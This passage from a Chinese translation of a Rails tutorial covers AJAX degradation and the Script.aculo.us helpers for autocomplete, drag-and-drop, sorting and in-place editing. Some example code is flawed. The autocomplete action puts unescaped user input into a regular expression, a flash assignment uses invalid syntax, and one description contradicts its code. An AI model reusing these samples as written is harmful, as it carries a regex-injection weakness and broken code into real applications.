  <% form_tag :action => 'send_email_without_ajax', {:onsubmit => 'return false;'} do %>
    To: <%= text_field 'email', 'to' %><br/>
    From: <%= text_field 'email', 'from' %><br/>
    Body: <%= text_area 'email', 'body' %><br/>
    <%= submit_to_remote 'Send Email', 'send',
                        :url => {:action => 'send_email'},
                        :update => 'email_form' %>
  <% end %>
</div>
```

##### 降级性与服务器端结构

当你开始在应用程序中分层集成AJAX时，你必须认识到那些多年来一直困扰着Web开发者的同样痛苦的事实。

-   总体上，浏览器作为运行时平台很糟糕。
-   即使它们不那么糟糕，好的特性在所有浏览器间也并不标准统一。
-   即便标准统一，由于公司策略，你仍有20%的用户无法使用它们。

我们内心深处现在都深知这些事实。大多数浏览器使用自定义的、非标准的JavaScript解释器，其功能集与其他浏览器的功能集以不可预测（但令人兴奋）的方式重叠。DOM实现差异巨大，关于元素定位的规则可能像第一次看《沙丘》一样令人困惑。或许最令人痛苦的是，你相当一部分用户无论出于恐惧、规定还是不可抗力，会禁用JavaScript。

如果你正在构建一个从一开始就包含AJAX功能的新应用程序，你可能不会遇到问题。但对许多开发者来说，AJAX是慢慢添加到现有应用程序中的东西，而这些应用已经有现成的用户群。当情况如此时，你实际上有两条可能的路径。

-   为非JavaScript用户放一个页面，上面写着：“不欢迎你这样的人——等你学会钻木取火了再来吧。”
-   你尽最大努力告诉他们：“你无法获得应用的全部好处，但我们喜欢你的钱，所以欢迎加入。”

如果你选择后者策略，你必须为AJAX功能提供有用的降级，使其能以非AJAX方式工作。好消息是Rails在这方面给了你很大的帮助。特别是，`form_remote_tag`确实做了一些相当有用的事情。这是我们前面示例生成的输出。

```
<form action="/user/send_email"
      method="post"
      onsubmit="new AJAX.Updater('email_form',
                                '/user/send_email',
                                {asynchronous:true, evalScripts:true,
                                 parameters:Form.serialize(this)});
                return false;">
```

前面我们说过，`return false;`语句非常重要，因为它能防止表单被提交两次（一次通过AJAX，一次通过标准POST）。如果这个表单在禁用JavaScript的浏览器中渲染，会发生什么？嗯，`onsubmit`属性会被忽略。这意味着，当表单提交时，它会将其内容发送到你服务器的`/user/send_email`动作。嘿，这太棒了！表单本身就能支持你那些没有JavaScript的客户，而你无需做任何事。

但等等；还记得`UserController.send_email`做什么吗？它返回一个只包含与该特定电子邮件相关联的状态消息的部分HTML片段。该片段旨在注入当前页面，替换表单本身。如果表单通过非AJAX方法POST，浏览器将被迫将状态消息渲染为整个页面。真难看。

所以另一只靴子落地了：你不仅需要在客户端制定降级策略，还需要在服务器端也有一个。有两种方法可以采用：你可以为AJAX和非AJAX调用使用相同的操作，或者你可以将你的AJAX调用发送到专门为它们构建的第二组操作。无论你选择哪种方式，你都需要一条路径返回部分HTML片段以注入页面，另一条路径在完整的页面上下文中返回部分HTML片段，以便浏览器有合理的东西可以渲染。

###### 降级到不同的URL

如果你选择降级到不同的URL，你必须为你的操作提供两组端点。使用`form_remote_tag`时，这非常容易。

```
<% form_remote_tag(:url  => {:action => 'send_email'}, :update => 'email_form',
                 :html => {:action => url_for(:action => 'send_email_no_ajax')}) do %>
  . . .
```

该调用生成以下HTML：

```
<form action="/user/send_email_no_ajax" method="post"
      onsubmit="new AJAX.Updater('email_form', '/user/send_email',
                {asynchronous:true, evalScripts:true, parameters:Form.serialize(this)});
                return false;"
      >
```

如果启用了JavaScript，`onsubmit`代码将被执行，将序列化的表单数据发送到`/user/send_email`，并取消表单的正常POST。如果禁用了JavaScript，表单将改为POST到`/user/send_email_no_ajax`。前者操作将使用`render :partial`仅返回需要的HTML片段。后者操作将渲染整个`.html`模板，包括布局。

降级到不同的URL可能是好的，因为它允许你的服务器端操作非常清晰；每个操作只渲染一个模板，你可以为AJAX和非AJAX方法创建不同的访问规则或过滤策略。缺点是，你最终可能会有很多重复代码（两个不同的方法都发送电子邮件），或者很多杂乱代码（两个方法都调用辅助方法来发送电子邮件，除此之外只是填充）。

```
after_filter :gzip_compress, :only => [:send_email_no_ajax]

def send_email
  actually_send_email params[:email]
  render :text => 'Email sent.'
end

def send_email_no_ajax
  actually_send_email params[:email]
  flash[:notice] = 'Email sent.'
  render :template => 'list_emails'
end

private

def actually_send_email(email)
  # 发送电子邮件
end
```



###### 降级到相同的URL

或者，你可以将调用降级到相同的URL。当你这样做时，必须有一些数据伴随请求，以区分AJAX调用和非AJAX调用。有了这个数据，你的控制器就可以决定是渲染部分视图、渲染完整布局，还是完全做其他事情。目前还没有行业标准的方法来做这件事。Prototype提供了一个Rails直接集成的解决方案。每当你使用Prototype触发一个XHR请求时，Prototype会在请求中嵌入一个专有的HTTP头。

```
HTTP_X_REQUESTED_WITH=XMLHttpRequest
```

Rails查询入站头中的这个值，并根据其存在（或不存在）来设置`xhr?`方法或Rails请求对象返回的值。当该头存在时，调用返回`true`。有了这个便利设施，你可以根据请求类型决定如何渲染内容。

```
def send_email
  actually_send_email params[:email]
  if request.xhr?
    render :text => 'Email sent.'
  else
    flash[:notice] => 'Email sent.'
    render :template => 'list_emails'
  end
end
```


在优点方面，你的控制器会更加紧凑，无需大量重定向到辅助方法或*大部分相同但略有不同*的方法名称。缺点在于，你无法仅针对一种或另一种类型的请求优先分配过滤器。例如，如果你希望压缩非AJAX响应的gzip压缩，就必须在方法本身中处理。这可能导致代码冗余，如果在多个不同方法中都需要gzip压缩，而这些方法又同时支持两种请求类型。

### 23.2 Script.aculo.us

从技术上讲，AJAX涉及向服务器发送数据和从服务器检索数据的异步方法。其原始定义（Asynchronous JavaScript and XML）在这方面非常明确。纯粹主义者会告诉你，世界上所有花哨的UI技巧都不是真正的AJAX；它们只是为新世纪包装的DHTML。

虽然这无疑是正确的，但它也忽略了重点。花哨的UI效果可能不是AJAX，但它们肯定是*Web 2.0*，并且它们对于现代互联网应用程序的重要性与异步数据传输一样重要。这是因为你的用户看不到从他们机器后面冒出的TCP/IP流量，他们也看不到异步性。但他们可以看到逐渐淡入淡出、引人注目的高亮显示、弹出图形以及其他使Web应用程序*感觉*起来不那么像Web应用程序而更像一个应用程序的东西。

坦率地说，没有有趣的UI效果，AJAX可能会让用户感到困惑，以至于他们完全停止使用你的应用程序。原因是我们已经训练浏览器用户期望他们的页面以特定的方式运行；数据不会随意地掉落到页面上一直空着的部分，我们不会因为鼠标悬停在图片上而导致与服务器的往返，后退按钮就像*撤销*一样，等等。当我们开始使用AJAX并打破这些期望时，我们必须努力使变化显而易见。如果它们也很漂亮，那当然更好，但显而易见要重要得多。

Script.aculo.us（http://script.aculo.us）是wollzelle Media Design und Webservices GmbH的Thomas Fuchs开发的开源框架。它是一个JavaScript库，为HTML应用程序提供了一个功能强大但易于使用的效果库。它构建在Prototype之上，与Prototype一样，与Rails紧密集成。Rails提供了一个辅助库，使Script.aculo.us可以像Prototype一样轻松地包含在你的应用程序中，并且同样值得使用。

在本节中，我们将介绍Script.aculo.us辅助工具和其他提供UI效果的辅助工具。具体来说，我们将看到Script.aculo.us用于各种视觉效果和拖放支持的辅助工具。我们还将看到用于自动完成文本字段和就地编辑的辅助工具。每个辅助工具都提供了一种纯Ruby的方式来创建复杂的、客户端的、基于JavaScript的行为。

#### 自动完成

Google Suggest是第一个提供类型提前查找功能的主要互联网应用程序。本质上，使用类型提前查找，网页表单上的文本框变得有预见性：当你输入时，它们会猜测你可能想要输入的值，并开始为你提供建议。当你看到这种行为时，通常会看到一个可能的匹配列表显示在相关字段上方或下方的选择框中。用户可以使用鼠标点击选择，或者如果他们不想将手从键盘上移开，他们可以上下箭头键移动选择，然后按Enter键将当前选择复制到文本框并关闭列表。

用户第一次体验到这一点时，反应通常是轻微的惊讶和欣喜。Web程序员第一次体验到这一点时，反应通常是“这一定需要很多JavaScript。”事实证明，一开始并不需要那么多JavaScript，而Rails提供的辅助工具甚至消除了这种需求。

一个可工作的自动完成字段是四个活动部分的复杂组合。要创建一个，你需要定义：

- 一个供用户输入的文本框
- 一个用于容纳选择项的`<div>`
- 一块执行工作的JavaScript，它：
    1. 观察文本框
    2. 将其值发送到服务器
    3. 将服务器的响应放置在`<div>`中
- 一个服务器端点，用于将值转换为选项列表

除了这四个活动部分，你可能还需要一个样式表，使包含选项的`<div>`看起来更美观。

在这个例子中，用户可以编辑程序员喜欢的语言。当他们输入一种语言时，应用程序将根据他们迄今为止输入的内容，从服务器上已有的唯一语言集中建议可能的匹配项。让我们看看生成UI的RHTML模板：

```
Download pragforms/app/views/user/autocomplete_demo.rhtml

<p><label for="user_favorite_language">Favorite language</label><br/>
<%= text_field 'user', 'favorite_language'  %></p>
<div class="auto_complete"
     id="user_favorite_language_auto_complete"></div>
<%= auto_complete_field :user_favorite_language,
        :url=>{:action=>'autocomplete_favorite_language'}, :tokens => ',' %>
```

在第2行，我们使用标准的文本字段辅助工具创建文本框。它没有什么特别之处；当其包含的表单提交时，它的值将与其他表单字段一起包含在内。就在文本框下方，我们创建了用于容纳列表的`<div>`。按照惯例，它的id应该是文本框的id加上`_auto_complete`后缀，并且应该具有CSS类`auto_complete`。

最后，在第5行，我们调用创建JavaScript的辅助工具。假设我们遵循了文本框和`<div>`的命名约定，我们需要传递的唯一选项是文本框的id和服务器端点，后者接收字段的当前值。辅助工具将自动发现关联的`<div>`并将服务器结果放置在其中。这是生成的代码。

```
<input id="user_favorite_language"
    name="user[favorite_language]"
    size="30" type="text" value="C++"/>
<div class="auto_complete"
    id="user_favorite_language_auto_complete"></div>
<script type="text/javascript">
//<![CDATA[
    var user_favorite_language_auto_completer =
        new AJAX.Autocompleter('user_favorite_language',
                               'user_favorite_language_auto_complete',
                               '/user/autocomplete_favorite_language', {})
//]]>
</script>
```

`AJAX.Autocompleter`由Script.aculo.us库提供，负责定期执行过滤器的工作。

##### auto_complete_field选项

你可能不喜欢默认选项。如果不是，`auto_complete_field`辅助工具提供了许多其他选项供选择。

如果你的自动完成列表字段不能使用遵循约定的id，你可以使用`:update`选项覆盖它，该选项包含目标`<div>`的DOM ID。你也可以通过指定`:url`选项覆盖默认服务器端点，该选项接受一个字面URL或你可以传递给`url_for`的相同选项。

```
<%= auto_complete_field :user_favorite_language,
    :update => 'pick_a_language',
    :url => {:action => 'pick_language'} %>
<div class="auto_complete" id="pick_a_language"/>
```

你可以设置字段观察器的`:frequency`以调整自动完成字段的响应速度。同样，你也可以指定用户必须输入的最小字符数，然后才会触发自动完成。结合这两个选项，你可以相当精细地控制该字段对用户来说的响应速度以及生成到服务器的流量。

```
<%= auto_complete_field :user_favorite_language,
    :frequency => 0.5,
    :min_chars => 3
%>
```

自动完成只是另一个服务器端回调。正如我们已经了解到的，在进行这些异步调用时通知用户非常重要。你可以使用`:indicator`选项指定一个图形的DOM id，该图形在调用开始时切换为显示，在完成时切换为隐藏。

```
<%= text_field :user, :language %>

<div class="auto_complete" id="user_language_auto_complete"/>
<%= auto_complete_field :user_language,
    :indicator => 'language_spinner' %>
```

如果用户需要在每个自动完成文本框中输入多个值，你可以指定一个或多个令牌，以便在输入时重置行为。例如，我们可以允许用户为程序员选择多种喜欢的语言，使用逗号分隔值。

```
<%= text_field :user, :languages %>
<div class="auto_complete" id="user_languages_auto_complete"/>
<%= auto_complete_field :user_languages,
    :tokens => ',' %>
```

当用户开始输入值时，他们将看到如图23.3（在下一页）所示的选项列表。然后，如果他们进行选择并输入一个令牌（在本例中为逗号），列表将再次显示，他们可以选择第二项，如图23.4（在下一页）所示。


##### 选择第一个项目



##### 选择第二个项目



最后，你可以指定一个JavaScript表达式，以便在目标 `<div>` 显示或隐藏时（`:on_show`、`:on_hide`），或者在用户选择更新了文本字段之后（`:after_update_element`）被调用。这些回调允许你指定其他的视觉效果，甚至是服务端操作，以响应用户与自动完成字段的交互。

在服务端，你需要编写一个动作（action），该动作能将部分值转换为可能匹配项的列表，并将它们作为仅包含 `<li>` 元素的HTML片段返回。我们的示例使用正则表达式匹配，在语言名称的任何位置（而不仅仅是开头）查找部分值。然后，它使用一个局部模板（partial）来渲染它们，注意不使用任何布局（layout）。

```ruby
# Download pragforms/app/controllers/user_controller.rb

def autocomplete_favorite_language
  re = Regexp.new("^#{params[:user][:favorite_language]}", "i")
  @languages= LANGUAGES.find_all do |l|
    l.match re
  end
  render :layout=>false
end
```

```erb
# Download pragforms/app/views/user/autocomplete_favorite_language.rhtml

<ul class="autocomplete_list">
  <% @languages.each do |l| %>
    <li class="autocomplete_item"><%= l %></li>
  <% end %>
</ul>
```

在这种情况下，`LANGUAGES` 是一个在单独模块中定义的可能选项的预定义列表。

```ruby
# Download pragforms/app/helpers/favorite_language.rb

module FavoriteLanguage
  LANGUAGES = %w{ Ada  Basic  C         C++    Delphi Emacs\ Lisp  Forth
                  Fortran  Haskell Java       JavaScript  Lisp  Perl          Python
                  Ruby       Scheme Smalltalk Squeak}
end
```

同样（甚至更）可能的是，你希望直接从数据库表中获取选择列表。如果是这样，你可以轻松地修改代码，使用条件查找（conditional find）对表进行查询，然后适当地渲染它们。事实证明，如果这是你期望的行为，Action Controller 中包含一个模块，允许你指定你的控制器支持某个类的某个字段的自动完成。

```ruby
class UserController < ApplicationController
  auto_complete_for :user, :language
end
```

有了这个声明，你的控制器现在有了一个端点（在这种情况下称为 `auto_complete_for_user_language`），它执行条件查找并将结果格式化为 `<li>` 的集合。默认情况下，它按升序返回前10个结果。你总是可以通过传入一些参数来覆盖这些默认值。

```ruby
auto_complete_for :user, :language,
                 :limit => 20, :order => 'name DESC'
```

同样，如果你喜欢自动完成字段的默认样式和行为，你可以在视图中使用不同的辅助方法（helper）来为你渲染标准布局。

```erb
<%= text_field_with_auto_complete :user, :language %>
```

最后，你可以随心所欲地设置选择列表的样式。Rails为你提供了一个默认样式，`auto_complete_for` 辅助方法会自动使用它，但如果需要，你也可以自己嵌入它。这个样式表将一个标准的无序列表变成了看起来和操作起来都像选择框（select box）的东西。

```css
div.auto_complete {
  width: 350px;
  background: #fff;
}
div.auto_complete ul {
  border:1px solid #888;
  margin:0;
  padding:0;
  width:100%;
  list-style-type:none;
}
div.auto_complete ul li {
  margin:0;
  padding:3px;
}
div.auto_complete ul li.selected {
  background-color: #ffb;
}
div.auto_complete ul strong.highlight {
  color: #800;
  margin:0;
  padding:0;
}
```

值得强调的是，列表的*向上、向下箭头*以及*高亮*行为不需要JavaScript。只需要提供前面展示的样式表；所有的 `<ul>` 标签都支持这种行为（在相对较新的浏览器中），并且只需要样式来显示状态的变化。

#### 拖放与可排序元素

所有这些AJAX和Web 2.0技术的意义在于使你的Web应用更具交互性——更像桌面应用。拖放行为可能是这方面最令人印象深刻的例子。

拖放行为有两种明显的风格：在列表内移动项目（排序）和在列表之间移动项目（分类）。无论哪种情况，你都需要指定三类参与者。

-   原始容器列表
-   目标容器列表（排序时，它与原始列表相同）
-   可被拖动的元素

此外，你需要指定以下行为。

-   项目被拖动时做什么
-   项目被放下时做什么
-   完成时发送哪些信息给服务器


让我们先看看列表之间的拖放，然后我们就能明白排序操作要简单得多。在这个例子中，我们将管理一个程序员的待办事项列表。待办事项有两个类别：待处理和已完成。我们希望能够将项目在两个列表之间拖动，并在项目移动时更新服务器。

首先，让我们设置页面的可视化部分。我们需要创建几个可视区域，一个标记为“待处理”，另一个标记为“已完成”，以便用户知道将项目拖到哪里。

```erb
# Download pragforms/app/views/user/drag_demo.rhtml

<h2>Pending</h2>
<div id="pending_todos">
  <%= render :partial=>"pending_todos" %>
</div>

<h2>Completed</h2>
<div id="completed_todos">
  <%= render :partial=>"completed_todos" %>
</div>
```

我们的每个目标 `<div>` 都有一个 `id` 属性，我们稍后将需要它来将行为绑定到目标。每个都通过渲染一个局部模板（partial）来填充；`<div>` 的内容将是带有自己的 id 的 `<ul>`。这是渲染待处理项目的局部模板。

```erb
# Download pragforms/app/views/user/_pending_todos.rhtml

<ul id='pending_todo_list'>
  <% @pending_todos.each do |item| %>
    <% domid = "todo_#{item.id}" %>
    <li class="pending_todo" id='<%= domid %>'><%= item.name %></li>
    <%= draggable_element(domid, :ghosting=>true, :revert=>true) %>
  <% end %>
</ul>
```

该局部模板创建一个由 `<li>` 元素组成的 `<ul>` 列表，每个元素都有一个 `id` 和一个特定的类，在本例中是 `pending_todo`。你也会在这里看到拖放相关辅助方法（helper）的第一次使用。对于每个 `<li>` 元素，我们还使用了 `draggable_element` 辅助方法。这个辅助方法要求你传入要使其可拖动的元素的 `id`，并允许多个选项。

-   `ghosting`：拖动时以50%不透明度渲染项目（false 表示拖动时100%不透明度）
-   `revert`：放下后将项目弹回其原始位置（false 表示将项目留在放下处）

回到主页面，我们需要识别两个放置目标。我们将为此使用 `drop_receiving_element` 辅助方法。

```erb
<%= drop_receiving_element('pending_todos',
                        :accept     => 'completed_todo',
                        :complete   => "$('spinner').hide();",
                        :before     => "$('spinner').show();",
                        :hoverclass => 'hover',
                        :with       => "'todo=' + encodeURIComponent(element.id.split('_').last())",
                        :url        => {:action=>:todo_pending, :id=>@user})%>

<%= drop_receiving_element('completed_todos',
                        :accept     => 'pending_todo',
                        :complete   => "$('spinner').hide();",
                        :before     => "$('spinner').show();",
                        :hoverclass => 'hover',
                        :with       => "'todo=' + encodeURIComponent(element.id.split('_').last())",
                        :url        => {:action=>:todo_completed, :id=>@user})%>
```

这个辅助方法定义了一个目标DOM元素来接收放下的项目，并进一步根据这些事件定义了应用程序行为。除了目标的 `id`，还有以下选项可用。

-   **`:accept`** => *字符串*
    可以放置到此容器上的项目的CSS类
-   **`:before`** => *代码片段*
    在触发服务端调用之前执行的JavaScript代码片段
-   **`:complete`** => *代码片段*
    在完成XHR调用后立即执行的JavaScript代码片段
-   **`:hoverclass`** => *字符串*
    当候选项目悬停在放置目标上时，将此CSS类应用于放置目标


+   :with => *snippet*
    一个JavaScript代码片段，用于执行并创建发送到服务器的查询字符串参数
:url => *url*
    服务器端点的实际URL或一个*url_for*构造
:update => *string*
    作为XHR调用结果需要更新的DOM元素（在我们的示例中，我们使用RJS来更新页面，这将在第559页的第23.3节"RJS模板"中介绍）

总的来说，Script.aculo.us的辅助方法与Prototype辅助方法接受所有相同的选项，因为前者是建立在后者之上的。

在我们的示例中，我们指定了`pending_todos`容器只接受已完成的待办事项（completed_todo），反之亦然。这是因为拖放行为的目的是对项目进行重新分类。我们希望仅当项目被移动到另一个类别时才向服务器发送XHR请求，而不是当它返回到原始位置时。通过在单个可拖动项目上指定`revert`属性，如果将它们拖放到配置好的接收目标之外的其他地方，它们会弹回原始位置，并且不会导致额外的服务器往返。

我们还通过从可拖动项目的DOM ID中解析出数据库ID来构建查询字符串。请查看该JavaScript代码片段。

```
"'todo=' + encodeURIComponent(element.id.split('_').last())"
```

`with`参数接受一个代码片段，并将被拖放的实际DOM元素作为名为`element`的变量传入。在我们的局部视图中，我们将这些元素的ID定义为`todo_database_id`，因此当我们想向服务器发送哪个项目被拖放的信息时，我们分离出`todo`部分，只发送数据库ID。

我们还为放置目标和可拖动元素定义了简单的样式。

```
<style>
.hover {
    background-color: #888888;
}
#pending_todos ul li, #completed_todos ul li {
    list-style: none;
    cursor: -moz-grab;
}
#pending_todos, #completed_todos {
    border: 1px solid gray;
}
</style>
```

`hover`类使得放置目标在可拖动项目悬停在其上方时高亮显示。第二条规则指定`pending_todos`或`completed_todos`内的任何`<li>`元素将使用`-moz-grab`光标（抓取手形图标），以便向用户提供视觉提示，表明该项目具有特殊属性（可拖动性）。最后一条规则只是在我们的放置目标周围绘制边框，使其更加明显。

如果你想创建一个可排序列表，而不是两个或多个类别的项目，该怎么办？排序通常涉及一个列表，每当其顺序改变时，你需要将其发送回服务器。要创建一个这样的列表，你只需要能够创建一个HTML列表，然后指定顺序改变时要做什么。辅助方法会处理其余的事情。

```
<ul id="priority_todos">
  <% for todo in @todos %>
    <li id="todo_<%= todo.id %>"><%= todo.name %></li>
  <% end %>
</ul>
<%= sortable_element 'priority_todos',
    :url => {:action => 'sort_todos'} %>
```

`sortable_element`辅助方法可以接受任何标准的Prototype选项，用于控制在向服务器发送XHR调用之前、期间和之后发生的情况。在许多情况下，由于列表已经按顺序排列，浏览器端不需要执行任何操作。以下是上述代码的输出。

```
<ul id="priority_todos">
  <li id="todo_421">Climb Baldwin Auditorium</li>
  <li id="todo_359">Find Waldo</li>
</ul>
<script type="text/javascript">
//<![CDATA[
Sortable.create("priority_todos", {onUpdate:function(){
    new Ajax.Request('/user/sort_todos', {asynchronous:true, evalScripts:true, parameters:Sortable.serialize("priority_todos")})}})
//]]>
</script>
```

Script.aculo.us提供了一个名为`Sortable.serialize`的辅助JavaScript方法。它接受一个列表，并创建一个JSON转储，包含其包含元素按当前顺序排列的ID，然后将其发送回服务器。以下是操作在重新排序时接收到的参数。

```
Processing UserController#sort_todos (for 127.0.0.1 at 2006-09-15 07:32:16) [POST]
Session ID: 00dd9070b55b89aa8ca7c0507030139d
Parameters: {"action"=>"sort_todos", "controller"=>"user", "priority_todos"=>["359", "421"]}
```

请注意，`priority_todos`参数包含一个数据库ID数组，而不是列表中的DOM ID（其格式为`todo_421`，而不是`421`）。`Sortable.serialize`辅助方法自动使用下划线作为分隔符来解析出实际的数据库ID，从而减少你在服务器端需要做的工作。然而，这种行为有一个问题。默认情况下，它会删除DOM ID中第一个下划线之前及包括该下划线的所有内容。如果你的DOM格式为`priority_todo_database_id`，那么序列化器将发送`{"priority_todos":["todo_359", "todo_421"]}`到服务器。要覆盖此行为，你必须向辅助方法提供`format`选项，这只是众多可排序特定选项之一。此外，你可以传递我们之前见过的任何选项。

- `:format` => *正则表达式*
  - 一个正则表达式，用于确定作为序列化ID发送到服务器的内容（默认为`/^([^-]*)_*(.*)$/`）
- `:constraint` => *值*
  - 是否将拖动限制在`:horizontal`（水平）或`:vertical`（垂直）方向（或`false`表示无限制）
- `:overlap` => *值*
  - 计算项目在`:horizontal`或`:vertical`方向的重叠
- `:tag` => *字符串*
  - 将容器元素的哪个子元素视为可排序（默认为`li`）
- `:containment` => *目标*
  - 接受一个元素或元素数组作为潜在的放置目标（默认为原始目标元素）
- `:only` => *字符串*
  - 用于过滤子元素作为候选者的CSS类名或类名数组
- `:scroll` => *布尔值*
  - 确定在拖动操作期间如果列表超出视觉边界是否滚动列表
- `:tree` => *布尔值*
  - 确定是否将嵌套列表视为主要可排序列表的一部分。这意味着你可以创建多层列表，不仅可以排序同一层级的项目，还可以在不同层级之间拖动和排序项目

例如，如果你的列表使用看起来像`priority_todo_database_id`的DOM ID，但其中包含一些无法排序的项目，你的声明可能如下所示

```
<%= sortable_element 'priority_todos',
    :url => {:action => 'sort_todos'},
    :only => 'sortable',
    :format => '/^priority_todo_(.*)$/' %>
```

#### 就地编辑

就地编辑是一项便捷功能，当你不想为页面上的每一个小数据片段创建完整的编辑界面时使用。有时，屏幕上只有一两个项目需要编辑；你可以将它们渲染为带样式的文本，而不是丑陋且破坏样式的输入字段，并为用户提供一种快速将其切换为可编辑版本，编辑完成后再切换回的方法。

Script.aculo.us提供了视图和控制器的辅助方法来帮助创建就地编辑器。让我们首先看看页面应该如何运作。这是一个使用就地字段处于正常模式的用户的编辑页面。


用户将鼠标悬停在名称字段上，得到该字段可编辑的指示。



这是名称字段处于完整编辑模式时的页面样子。



如果你坚持使用默认设置，创建它将非常容易。在你的控制器中，指定你希望控制器支持就地编辑的模型类名和列名。

```
class UserController < ApplicationController
  in_place_edit_for :user, :username
  in_place_edit_for :user, :favorite_language
  # ...
end
```

这些辅助方法实际上在控制器中创建了名为`set_user_username`和`set_user_favorite_language`的方法，表单将与这些方法交互以更新字段数据。这些生成的方法将使用新数据更新当前模型实例，并返回新保存的值。


使用 `in_place_editor_field` 辅助方法来创建控件。在我们的示例中，我们只是遍历模型上的所有列，并为每一列创建一个控件。

```
<% for column in User.user_columns %>
<p>
  <b><%= column.human_name %>:</b>
  <%= in_place_editor_field "user", column.name, {}, {
    :load_text_url=> url_for(:action=>"get_user_#{column.name}", :id=>@user)
  } %>
</p>
<% end %>

<%= link_to 'Edit', :action => 'edit', :id => @user %> |
<%= link_to 'Back', :action => 'list' %>
```

这就足以创建默认版本了。然而，您可以指定许多选项来改变默认行为。

`:rows` => *number*
允许在实时编辑字段中输入的文本行数。如果值大于1，控件将切换为 `<textarea>`。

`:cols` => *number*
允许输入的文本列数。

`:cancel_text` => "cancel"
允许用户取消编辑操作的链接上显示的文本。

`:save_text` => "ok"
允许用户保存编辑的按钮上显示的文本。

`:loading_text` => "Loading..."
在编辑内容保存到服务器时显示的文本；这相当于我们在其他地方使用的进度指示器。

`:external_control` => *string*
用于开启编辑模式的控件的 DOM id。使用此选项可以覆盖必须点击字段本身进行编辑的默认行为。

`:load_text_url` => *string*
一个 URL，用于发送 XHR 请求以获取字段的当前值。如果未指定，控件将使用显示字段的 innerText 作为值。

例如，对于我们目前展示的表单，如果用户编辑用户名字段并将其设为空，当他们保存值时，该字段将不再可编辑。这是因为默认行为是让用户点击字段本身进行编辑，而如果字段为空，则无处可点击。让我们提供一个外部控件来代替字段本身进行点击。

```
<% for column in User.user_columns %>
<p>
  <input type="button" id="edit_<%= column.name %>" value="edit"/>
  <strong><%= column.human_name %>:</strong>
  <%= in_place_editor_field "user", column.name, {},
          {:external_control => "edit_#{column.name}"} %>
</p>
<% end %>
```

它的显示效果如下。

[edit] **Username:** anders gosling

[edit] **Favorite language:** Rails

[Edit] | [Back]

此外，在值为空的情况下，当用户进入编辑模式时，您可能希望在编辑器字段中提供某种默认文本。要提供此功能，您必须创建一个服务器端操作，编辑器可以调用它来询问字段的值，然后在 `load_text_url` 选项中提供该值。这是一个创建自定义辅助方法的示例，类似于 `in_place_edit_for`，用于提供默认值。

```
class UserController < ApplicationController
  def self.in_place_loader_for(object, attribute, options = {})
    define_method("get_#{object}_#{attribute}") do
      @item = object.to_s.camelize.constantize.find(params[:id])
      render :text => @item.send(attribute) || "[No Value]"
    end
  end

  in_place_edit_for    :user, :username
  in_place_loader_for  :user, :username
  in_place_edit_for    :user, :favorite_language
  in_place_loader_for  :user, :favorite_language
end
```

在视图中，您只需传递相应的选项。

```
<% for column in User.user_columns %>
<p>
  <input type="button" id="edit_<%= column.name %>" value="edit"/>
  <b><%= column.human_name %>:</b>
  <%= in_place_editor_field "user", column.name, {},
          {:external_control => "edit_#{column.name}",
           :load_text_url=> url_for(:action=>"get_user_#{column.name}", :id=>@user) } %>
</p>
<% end %>
```

它的显示效果如下。

**Username:**
[No Value] [ok] [cancel]

[edit] **Favorite language:** Rails

[Edit] | [Back]

请注意，由于未从数据库检索到值，编辑器字段的文本字段中显示 [No Value]。同时，您可以看到内联编辑器在编辑模式下会自动隐藏外部按钮控件。

#### 视觉效果

Script.aculo.us 还提供了一系列可以应用于 DOM 元素的视觉效果。这些效果大致可分为显示元素的效果、隐藏元素的效果和高亮元素的效果。方便的是，它们大多共享相同的可选参数，并且可以串联或并行组合以创建更复杂的事件。

Script.aculo.us 的辅助方法 `visual_effect` 用于生成等效的 JavaScript 代码。它主要用于将值分配给标准 Prototype 辅助方法的生命周期回调（complete、success、failure 等）之一。

有关所有可用效果的完整列表，请访问 http://script.aculo.us。我们不会进行全面的参考介绍，而是将探讨一些实际应用。

回想一下拖放示例。假设您希望在元素更新后也高亮显示放置目标。我们已经绑定了 complete 回调来关闭进度指示器。

```
<%= drop_receiving_element('pending_todos', :accept=>'completed_todo',
    :complete=>"$('spinner').hide();",
    :before=>"$('spinner').show();",
    :hoverclass=>'hover',
    :with=>"'todo=' + encodeURIComponent(element.id.split('_').last())",
    :url=>{:action=>:todo_pending, :id=>@user})%>
```

要添加视觉高亮效果，我们只需将其附加到 complete 选项中：

```
<%= drop_receiving_element('pending_todos', :accept=>'completed_todo',
    :complete=>"$('spinner').hide();" + visual_effect(:highlight, 'pending_todos'),
    :before=>"$('spinner').show();",
    :hoverclass=>'hover',
    :with=>"'todo=' + encodeURIComponent(element.id.split('_').last())",
    :url=>{:action=>:todo_pending, :id=>@user})%>
```

您也可以使用 appear/disappear 效果来淡入淡出进度指示器。

```
<%= drop_receiving_element('pending_todos', :accept=>'completed_todo',
    :complete=>visual_effect(:fade, 'spinner', :duration => 0.5),
    :before=>visual_effect(:appear, 'spinner', :duration => 0.5),
    :hoverclass=>'hover',
    :with=>"'todo=' + encodeURIComponent(element.id.split('_').last())",
